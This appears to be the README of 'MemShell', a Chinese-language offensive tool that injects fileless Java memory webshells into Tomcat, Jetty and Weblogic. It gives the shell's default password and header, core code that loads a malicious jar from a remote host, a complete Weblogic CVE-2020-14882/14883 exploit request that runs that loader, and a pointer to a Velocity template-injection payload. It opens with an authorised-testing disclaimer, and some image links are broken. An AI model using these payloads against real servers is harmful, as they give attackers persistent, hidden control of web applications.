




# MemShell
## 免责声明

本工具旨在帮助企业快速定位漏洞修复漏洞,仅限授权安全测试使用!
严格遵守《中华人民共和国网络安全法》,禁止未授权非法攻击站点!

## 使用场景

冰蝎默认密码`Crilwa`，添加请求头`D0g3:xxx`

1. 代码执行，例如可以调用`URLClassLoader`远程加载类，便可以无文件落地注入内存马。

   目前支持：

   - Tomcat6789回显，Tomcat6789冰蝎马
   - Jetty回显，Jetty冰蝎马
   - Weblogic冰蝎马

2. JavaAgent注入（需要文件落地，暂时只支持linux，目前没有实现冰蝎payload，只支持Tomcat回显）

### 核心代码

```java
java.net.URLClassLoader u = new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL("http://192.168.220.1:8000/MemShell-1.0-SNAPSHOT.jar")});
u.loadClass("Inject.WeblogicInjectFilterShell").newInstance();
u.close();
```

事实上就是通过`URLClassLoader`进行远程类加载，优点是内存马代码编写方便，payload构造简单，缺点是不出网。

通过寻找通用组件的`defineClass`可以解决不出网的问题，比如 BCEL ，但是payload一方面是体积大，一方面是构造较为困难，这里不做深入。

目前支持的注入模块：



### CVE-2020-14882&CVE-2020-14883

例如下面的payload，可以进行代码执行，加载远程恶意代码。

```http
GET /console/css/%25%32%65%25%32%65%25%32%66consolejndi.portal?test_handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.net.URLClassLoader u = new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL("http://192.168.220.1:8000/MemShell-1.0-SNAPSHOT.jar")});u.loadClass("Inject.WeblogicInjectFilterShell").newInstance(); u.close();"); HTTP/1.1
```

]8}30B.png)



### Velocity模板注入

通常使用Velocity模板注入都是进行反弹shell，代码构造比较复杂，不过理论上能够代码执行都可以写内存马，这边我写了Velocity模板注入的相关[payload](https://github.com/cri1wa/MemShell/blob/main/poc/velocity.vm)，可以供给参考。

本地搭建Jetty项目，使用Velocity模板注入注入Jetty内存马





